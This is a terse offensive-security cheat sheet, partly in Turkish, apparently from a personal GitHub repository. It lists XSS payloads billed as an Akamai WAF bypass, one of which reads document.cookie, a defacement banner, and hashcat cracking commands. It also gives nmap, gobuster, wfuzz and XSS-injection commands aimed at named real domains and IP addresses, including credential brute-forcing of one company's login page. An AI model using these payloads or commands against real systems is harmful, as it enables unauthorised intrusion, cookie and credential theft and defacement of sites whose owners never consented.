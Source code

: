 # manuel

# akamai xss bypass 

```
<font color="red">ERROR 1064 (42000): You have an error in your SQL syntax;</font>
```
```
<A HREF="https://www.cia.gov/">Login Here </A>
```
```
<button onClick="alert('xss')">Submit</button>
```
```
"'>"<A HRef=" AutoFocus OnFocus=top//? >
```
```
"'>"<A HRef=" AutoFocus OnFocus=top//?['ale'%2B'rt'](document%2Bcookie)>
```
________
```
<iframe src="https://www.cia.gov" width="100%" height="500"></iframe>

```
______________________________
# Offensive payload
```
git clone https://github.com/InfoSecWarrior/Offensive-Payloads.git 
```
_____________________________

### link-gopher : Web sitesindeki linkleri cikartir tek tek elle kopyala yapistir yapmazsin
______________________________

# hashcat icin wordlist
```
https://packetstormsecurity.com/Crackers/wordlists/page1/
```
```
https://labs.nettitude.com/tools/rocktastic/
```
```
https://github.com/J3rryBl4nks/PasswordCrackingMethodology
```
```
hashcat -m 300 -a 0 -o hashcikti3a.txt hashes5k.txt weakpass_3a/weakpass_3a
```


____________________________
```
gobuster dir -w /usr/share/wordlists/dirb/common.txt --url 192.168.56.116
```
```
echo "http://arkas.com.tr" | waybackurls | gf xss | xargs -I {} injectx.py -u {}
```
```
wfuzz -c -z file,/usr/share/seclists/Usernames/top-usernames-shortlist.txt -z file,/usr/share/seclists/Passwords/darkweb2017-top100.txt --hc 200 -d "username=FUZZ&password=FUZ2Z" https://www.kamyonum.com.tr/edit/login.asp 
```
```
nmap -Pn -n --top-ports 5000 13.40.217.134 -sV -sC --version-all --script=vuln --script=auth --script=http-brute,snmp-brute --script=exploit --script=malware -o nmapExploitScan
```

```
<h1><A HREF="https://cia.gov/"><marquee>YOU HAVE BEEN HACKED by DedCrowd</marquee> </A>
```
```
https://github.com/reddelexc/hackerone-reports
```


